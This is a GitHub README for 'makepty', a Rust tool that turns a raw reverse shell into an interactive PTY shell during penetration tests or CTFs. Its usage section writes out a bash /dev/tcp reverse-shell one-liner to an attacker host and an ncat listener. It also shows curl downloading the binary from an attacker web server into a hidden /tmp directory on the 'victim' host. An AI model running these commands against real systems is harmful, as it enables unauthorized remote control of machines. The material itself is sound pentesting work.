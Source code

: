 # makepty
Create a PTY linked to stdin and stdout


This tool creates a pseudo-TTY which takes input from standard input and prints to standard output.
I made it as another potential option for building a PTY on a raw (netcat) shell during a penetration test or CTF.
It is similar to `python3 -c 'import pty;pty.spawn("/bin/bash")'` but also works on platforms that lack Python.

I was inspired to create it after I took over a FreeBSD box and found that it didn't have python and my pyinstaller version only worked on Linux.

## Why

When taking over a target computer, pentesters will generally use a reverse shell with methods such as `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

This initial shell will have no PTY, thus allowing only non-interactive commands to be run.
A hacker generally needs to upgrade to a PTY to be able to easily run commands such as `sudo` or `vi` remotely.
`makepty` is a simple binary that will upgrade a raw shell to a TTY shell.

## Platforms

Tested: Linux, FreeBSD, MacOS

Untested, but might work if you compile it: Windows

## Usage

On attacker system, start a listener via for example: `ncat -lvp 9443`
On victim, get a reverse shell through for example `bash -c 'bash -i >& /dev/tcp/$hackerip/9443 0>&1'`

Now you will have a raw shell on your ncat listener. To upgrade, put makepty on the target system and run it. Example:
On attacker, make a directory and move makepty for target system to it, then run a web server:
```sh
mkdir /tmp/web
cp ~/tools/makepty-freebsd /tmp/web/
cd /tmp/web
python3 -m http.server 8082
```
On victim, download it and run it:
```sh
mkdir /tmp/.w
cd /tmp/.w
curl http://$hackerip:8082/makepty-freebsd > makepty # or `ftp http://$hackerip:8082/makepty-freebsd` as `ftp` on BSD is a non-interactive curl-like command
chmod +x makepty
./makepty bash # or any other shell install on the system. Defaults to `sh`
```

You will now have a PTY shell, as can be tested with `stty -a`.

To further improve your experience, set your own shell to raw mode so you can use interactive commands such as `vi`, and use ctrl+c, shell completion, etc. on the victim.

On attacker shell:
```sh
# First run ctrl+Z to background the reverse shell, then
stty size # get your TTY size, example 55 212 is rows 55, columns 212
stty raw -echo && fg # set your TTY to raw mode and then foreground the shell
# Now you're in the victim shell again
stty rows 55 columns 212 # send TTY size info to PTY on victim
# You can now run commands such as `vi` in fullscreen on your reverse shell
```

### usage example

[![asciicast](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj.svg)](https://asciinema.org/a/7NHg67zFhsfZQnU17rY0J9Rtj)

## Building

This project uses the Rust nightly `strip` feature to reduce binary size. As such, you'll need Rust nightly to build it. Assuming you've got Rust installed, you'll have to install the nightly toolchain with:
```sh
rustup toolchain install nightly
rustup +nightly target add x86_64-unknown-linux-musl
```

Then build:
```sh
cargo +nightly build --target x86_64-unknown-linux-musl --release
```

Cross-compiling for FreeBSD uses https://github.com/wezm/freebsd-cross-build with edit mentioned in https://github.com/wezm/freebsd-cross-build/issues/3 to add the nightly toolchain.

## License

MIT license (see [LICENSE-MIT](LICENSE-MIT) file)
